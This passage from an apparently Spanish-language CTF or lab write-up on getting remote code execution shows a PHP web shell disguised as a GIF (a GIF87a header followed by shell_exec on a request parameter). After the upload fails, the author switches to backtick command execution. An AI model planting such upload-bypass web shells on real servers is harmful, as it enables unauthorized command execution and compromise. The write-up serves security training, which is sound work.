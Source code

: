 ## Obtaining RCE
Ahora nos creamos una pequeña web shell.
```console
cat -p test.gif
GIF87a;
<?php

    echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";

?>
```

Y tenemos un problema al intentar subirlo...
![Write-up Image](images/Screenshot_31.png)

Pero probando algunas formas básicas de ejecutar comandos en PHP que encontré [en este apartado de HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/index.html#php-command--code-execution), encontré que podemos ejecutar comando utilizando las `backticks`.
![Write-up Image](images/Screenshot_32.png)


```console
cat -p test.gif
GIF87a;
<?php

    echo "<pre>" . `uname -a` . "</pre>";

?>
```

